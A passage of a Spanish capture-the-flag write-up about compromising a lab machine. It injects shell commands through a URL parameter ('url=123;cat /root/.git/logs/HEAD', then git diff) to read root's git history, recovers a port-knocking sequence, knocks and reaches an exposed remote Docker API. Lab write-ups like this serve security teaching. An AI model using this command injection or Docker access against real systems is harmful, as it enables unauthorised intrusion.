 Me muevo por los diferentes archivos de git, encontrando que hay varios commits detallados en :
```
http://api-dev-backup:8080/exif?url=123;cat /root/.git/logs/HEAD
```

Pero si intento acceder a los branches me dice `Request contains banned words`. Pruebo entonces a saltarme la resticción ejecutando diferentes comandos de git y buscando diferencias entre los commits con un comando como este:

```
http://api-dev-backup:8080/exif?url=123;git --git-dir /root/.git/ diff 

```

Y encuentro lo siguiente:

```
I got tired of losing the ssh key all the time so I setup a way to open up the docker for remote admin.
-
-Just knock on ports 42, 1337, 10420, 6969, and 63000 to open the docker tcp port.
-
-Cheers,
-
-Hydra
\ No newline at end of file
diff --git a/flag.txt b/flag.txt
deleted file mode 100644
index aae8129..0000000
--- a/flag.txt
+++ /dev/null
@@ -1,3 +0,0 @@
-You found the root flag, or did you?
THM{....}
```

# Port-knocking<a id="port-knocking"></a>

Ahora tengo que ejecutar un [port-knocking](https://es.wikipedia.org/wiki/Golpeo_de_puertos) para abrir el puerto de docker. 

```
knock IPDELAMAQUINA 1337 10420 6969 63000
```

Vuelvo a ejecutar un escaneo de puertos con nmap y tenemos un nuevo puerto abierto: 2375. 

# Docker<a id="docker"></a>

Cruzo los dedos para que Docker esté configurado para ejecutarlo remotamente:

```
docker -H IPDELAMAQUINA:2375 ps
```
